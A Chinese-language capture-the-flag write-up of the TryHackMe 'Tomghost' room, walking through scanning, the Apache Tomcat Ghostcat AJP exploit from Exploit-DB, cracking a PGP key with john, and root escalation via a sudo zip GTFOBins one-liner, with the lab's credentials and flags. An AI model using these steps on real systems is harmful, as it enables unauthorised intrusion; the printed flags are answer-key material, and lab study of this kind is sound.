 # Tomghost Writeup
> URL : https://tryhackme.com/room/tomghost

IP : 10.10.9.138
## Scanning
- `nmap -A 10.10.9.138`
    - ![](https://i.imgur.com/KJKjqsB.png)
    - 有開的 port
        - 22 SSH 7.2ps
        - 53 tcpwarpped
        - 8009 AJP13 1.3
        - 8080 Tomcat 9.0.30
## Exploit
- 使用 searchsploit 搜尋 AJP
    - `searchsploit AJP`
    - 可以找到 `Apache Tomcat - AJP 'Ghostcat File Read/Inclusion`
        - https://www.exploit-db.com/exploits/48143
    - `wget https://www.exploit-db.com/download/48143`
    - `mv 48143 48143.py`
    - `python 48143.py `
        - ![](https://i.imgur.com/0SQat66.png)
        - 就直接噴出帳號密碼ㄌ
            - 帳號 : `skyfuck`
            - 密碼 : `8730281lkjlkjdqlksalks`
## SSH 進去晃晃
- `ssh skyfuck@10.10.9.138`
- 發現家目錄裡面有兩個檔案
    - ![](https://i.imgur.com/hq6I5CF.png)
    - 先抓出來
        - `scp -r skyfuck@10.10.9.138:/home/skyfuck .`
- 在 `/home/merlin` 發現 `user.txt`
    - `THM{GhostCat_1s_so_cr4sy}`

## 暴力破解 pgp
- 看到一個 asc 檔案 跟一個 pgp 檔案
    - 用 file 觀察他們在幹嘛
    - ![](https://i.imgur.com/OmGBxmK.png)
    - `.pgp` 是加密後ㄉ東西
    - `.asc` 的是 private key
- pgp 轉 john
    - `gpg2john tryhackme.asc > john_gpg`
    - 備註 : gpg 是開源版本的 pgp
        - ref :　https://zh.wikipedia.org/wiki/PGP
    - 我們要破的是 `.asc` 的 private key 檔案求密碼
- 用 john 爆破，With rockyou.txt
    - `john john_gpg --wordlist=/opt/rockyou.txt`
    - ![](https://i.imgur.com/cl2k7x5.png)
    - 破出密碼為 `alexandru`
- `gpg --decrypt  credential.pgp`
    - 輸入密碼
    - ![](https://i.imgur.com/Y1D3ND3.png)
        - 取得 `merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`
## 提權
- `su merlin`
	- 輸入密碼
- `sudo -l`
	- `(root : root) NOPASSWD: /usr/bin/zip`
	- 發現有 zip 的 sudo 權限
- 到 [GTFOBins](https://gtfobins.github.io/) 找 zip 提權方法
	- 可以 sudo 的
		- `TF=$(mktemp -u)`
		- `sudo zip $TF /etc/hosts -T -TT 'sh #'`
- 提權成功
	- ![](https://i.imgur.com/CuifiyF.png)
	- `root.txt` : `THM{Z1P_1S_FAKE}`